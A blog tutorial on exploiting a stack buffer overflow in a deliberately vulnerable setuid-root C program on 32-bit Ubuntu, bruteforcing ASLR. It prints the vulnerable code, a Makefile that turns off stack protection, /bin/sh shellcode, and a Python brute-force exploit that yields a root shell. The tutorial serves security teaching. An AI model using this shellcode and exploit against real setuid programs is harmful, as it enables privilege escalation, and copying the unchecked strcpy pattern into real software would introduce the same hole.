 ```yaml
---
layout: post
title: Exploiting Simple Buffer Overflow (2) | Shellcode + ASLR Bruteforcing
comments: true
---
```


Hi! For my second article on exploiting simple buffer overflow, I want to talk about bruteforcing against ASLR (Address Space Layout Randomization). For those who are not so familiar with ASLR, it is a common countermeasure technique against traditional stack-based stack buffer overflow exploit--- it randomizes the memory address layout (e.g. stack) every time a program is run so that an attacker cannot know the exact location of shellcode/variable/etc beforehand.
It is enabled by default for most recent operation systems, and it is fairly effective for 64-bit systems (the range of randomization of address layout is 28-bit). However, for 32-bit systems, the range of randomization of address layout is so much smaller that bruteforcing is feasible.  
  
  
So, in this article, I will demonstrate a bruteforce against ASLR in 32-bit system, so that an arbitrary shellcode can be run. Note that other countermeasure techniques (e.g. DEP, Canary) are not used for the sake of simplicity in this experiment. (I promise that I will post about attacks against these techniques in the future!) Also, source code used in this article can be downloaded from [here](https://github.com/taishi8117/bof_lab/tree/master/bof).  

-------------------

I will use Ubuntu 14.04 32-bit for this experiment.  

```
canopus@canopus:~/bof_lab/bof|master
⇒  uname -a
Linux canopus 3.16.0-50-generic #67~14.04.1-Ubuntu SMP Fri Oct 2 22:08:53 UTC 2015 i686 i686 i686 GNU/Linux
canopus@canopus:~/bof_lab/bof|master
⇒  lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 14.04.3 LTS
Release:	14.04
Codename:	trusty
canopus@canopus:~/bof_lab/bof|master
⇒  gcc --version
gcc (Ubuntu 4.8.4-2ubuntu1~14.04) 4.8.4
Copyright (C) 2013 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
```

And here is a simple vulnerable program that I will use. As you can see, `vuln()` function has a buffer overflow vulnerability when `strcpy` is called.  

```C
#include    <stdio.h>
#include    <stdlib.h>
#include    <assert.h>
#include	<string.h>


void vuln (const char* arg){
	char buffer[100];
	strcpy(buffer, arg);
	printf("Hello %s\n", buffer);
	printf("[+] buffer @ %p\n", buffer);
}

int main (int argc, char **argv){
	
	if (argc != 2) {
		printf("Usage: %s <buffer>\n", argv[0]);
		exit(1);
	}
	vuln(argv[1]);
		return 0;
}
```

And for Makefile, make sure that `-fno-stack-protector` and `-z execstack` are included in the flags.  

```
CC=gcc
CFLAGS=-std=c99 -Wall -fno-stack-protector -z execstack

all: bof

bof: bof.o
	$(CC) $(CFLAGS) -o $@ $^
	sudo chown 0:0 $@
	sudo chmod u+s $@

bof.o: bof.c

clean:
	rm bof.o bof
```

After it was compiled, make sure that ASLR is turned on. Note that `echo 1 | sudo tee /proc/sys/kernel/randomize_va_space` can turn on ASLR. (`echo 0` to disable, `echo 2` to enable full ASLR)  

```
canopus@canopus:~/bof_lab/bof|master⚡
⇒  echo 1 | sudo tee /proc/sys/kernel/randomize_va_space
1
canopus@canopus:~/bof_lab/bof|master⚡
⇒  gdb -q ./bof
Reading symbols from ./bof...(no debugging symbols found)...done.
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```

Let's examine how the program behaves when its buffer is overflowed.  

```
canopus@canopus:~/bof_lab/bof|master⚡
⇒  gdb -q ./bof
Reading symbols from ./bof...(no debugging symbols found)...done.
gdb-peda$ pattern_create 120
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAA'
gdb-peda$ run 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAA'
Starting program: /home/canopus/bof_lab/bof/bof 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAA'
Hello AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAA
[+] buffer @ 0xbf991ccc

Program received signal SIGSEGV, Segmentation fault.
(...)

gdb-peda$ pattern_search
Registers contain pattern buffer:
EIP+0 found at offset: 112		(<== offset: 112)
EBP+0 found at offset: 108
(...)

gdb-peda$ p $eip
$1 = (void (*)()) 0x41384141
```

As you can see, 4 bytes starting from 112th character in the input string will overwrite EIP.   

Let's also check how ASLR affects the address of buffer.  

```
canopus@canopus:~/bof_lab/bof|master⚡
⇒  ./bof AAAA
Hello AAAA
[+] buffer @ 0xbfe9a8fc
canopus@canopus:~/bof_lab/bof|master⚡
⇒  ./bof AAAA
Hello AAAA
[+] buffer @ 0xbfb43e4c
canopus@canopus:~/bof_lab/bof|master⚡
⇒  ./bof AAAA
Hello AAAA
[+] buffer @ 0xbf8c941c
```

As you can see, the location of `buffer` is randomized every time the program is run, and it is impossible to guess its exact location for the next execution. However, if you examine the location of buffer enough times, you will realize that its location is within the range of `0xbf*****c`. In this case, there are 1048576 possible locations where buffer is loaded. So, you can use a strategy --- randomly pick a memory address within the valid range, and run the program repeatedly until buffer happens to be located at that location and that's when the shellcode is executed.  


Let's also write a shellcode that executes '/bin/sh' so you can get a shell. I will not explain the details of how to write shellcode, but there are lots of resources on the web that you can find very useful.  

```nasm
global _start

section .text

_start:
	xor eax, eax
	push eax

	push 0x68732f2f		;//sh
	push 0x6e69622f		;/bin
	mov ebx, esp		;moving the pointer to "/bin//sh" to ebx

	push eax			;push 0 (=eax)
	mov edx, esp		;moving 0 to edx

	push ebx
	mov ecx, esp		;moving the pointer to "/bin//sh" to ecx

	mov al, 11
	int 0x80			;execv syscall
```

Now, we have everything that's needed to exploit this program. Below is the exploit code written in Python. Note that in order to increase the chance of shellcode being executed, I added 4096 bytes of NOP instruction right before the inserted shellcode. In this way, if the returned address (=addr_buffer+bufsize+offset+4) happens to be within this NOP range, the shellcode is properly executed as well (the longer the NOP sled, the less number of attempts necessary for a successful attack).  

```Python
#!/usr/bin/python

import struct, sys, time
from subprocess import PIPE, Popen

# exec /bin/sh
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

bufsize = 100
offset = 12     #incl. saved ebp
nopsize = 4096

def prep_buffer(addr_buffer):
    buf = "A" * (bufsize+offset)
    buf += struct.pack("<I",(addr_buffer+bufsize+offset+4))
    buf += "\x90" * nopsize
    buf += shellcode
    return buf

def brute_aslr(buf):
    p = Popen(['./bof', buf]).wait()

if __name__ == '__main__':
    addr_buffer = 0xbf92b39c    # randomly decided
    buf = prep_buffer(addr_buffer)
    i = 0
    while True:
        print i
        brute_aslr(buf)
        i += 1
```

And here it is! The shell was given after 998 attempts in my case. You can experiment in your environment too. Normally for this program with 4096 bytes of NOP sled, around 1000 times of attempts are necessary for a successful attack, which is significantly less than 1048576 (the number of possible address location of buffer)!  

```
canopus@canopus:~/bof_lab/bof|master⚡
⇒  python exploit.py
(...)
(...)

[+] buffer @ 0xbfc2bc0c
996
(... snippet)

[+] buffer @ 0xbfb9930c
997
(... snippet)

[+] buffer @ 0xbf92721c
998
(... snippet)

[+] buffer @ 0xbf92a26c
# whoami
root
```

